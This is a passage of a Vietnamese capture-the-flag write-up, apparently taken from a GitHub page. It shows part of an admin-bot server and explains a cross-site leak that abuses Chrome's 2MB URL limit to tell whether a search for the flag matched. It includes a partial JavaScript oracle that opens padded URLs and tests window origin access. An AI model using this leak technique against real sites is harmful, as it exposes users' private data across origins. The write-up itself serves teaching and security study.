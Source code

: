 ```js
        url === undefined ||
        (!url.startsWith('http://') && !url.startsWith('https://'))
    ) {
        return res.status(400).send({ error: 'Invalid URL' })
    }

    try {
        console.log(`[*] Visiting ${url}`)
        await visit(url)
        console.log(`[*] Done visiting ${url}`)
        return res.sendStatus(200)
    } catch (e) {
        console.error(`[-] Error visiting ${url}: ${e.message}`)
        return res.status(400).send({ error: e.message })
    }
})

app.listen(port, async () => {
    console.log(`[*] Listening on port ${port}`)
})
```

Set flag vào note và visit đến site mà ta đưa vào.

Ý tưởng: Lợi dụng URL limit 2MB trong Chrome
- Như đã phân tích ở trên, khi tìm kiếm thấy thì nó sẽ redirect đến `?found=1#xxx`, còn không thì chỉ redirect đến `?found=0`.
- Mà khi redirect thì phần fragment sẽ được thay đổi nếu có fragment (sau dấu #) mới được thay vào, còn không thì phần fragment sẽ giữ nguyên.
- Khi độ dài url quá 2MB thì tab đó sẽ bị `about:blank#block`, và sẽ được xem cùng origin với trang mở tab đó, do đó nếu ta gọi đến `w.origin` thì sẽ không bị block bởi CORS như sau:
```js
// Giả sử đang đứng ở trang example.com mà mở console nhập đoạn sau:
url = "http://google.com"
'http://google.com'
let w = window.open(url + "#" + "A".repeat(2 * 1024 * 1024 - url.length));
undefined
w.origin
'https://example.com'
```
Bây giờ điều ta cần làm là:
- Làm cho độ dài khi query nhỏ hơn 2MB sao cho khi điều hướng đến ?found=0 với phần fragment sẽ vừa đủ 2MB (hoặc lớn hơn 1 ít vì `q=` và `found=0` chỉ đủ search 4 ký tự thôi) và gây ra `about:blank#block`
- Nếu tìm kiếm có thì fragment mới sẽ thay phần `#AAA...AAA` nên sẽ không aborted.

Thời gian bị giới hạn trong 10s nên để tăng số ký tự search được mình xài `Promise.all(promises)`:

```js
    <script>
        const charset = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{|}~'

        const leak = async (url) => {
            let w = window.open(url + "#" + "A".repeat(2 * 1024 * 1024 - url.length - 2));
            await sleep(800);
            try {
                w.origin;
                await w.close();
                return 0;
            } catch {
                await w.close();
                return 1;
            }
        }

```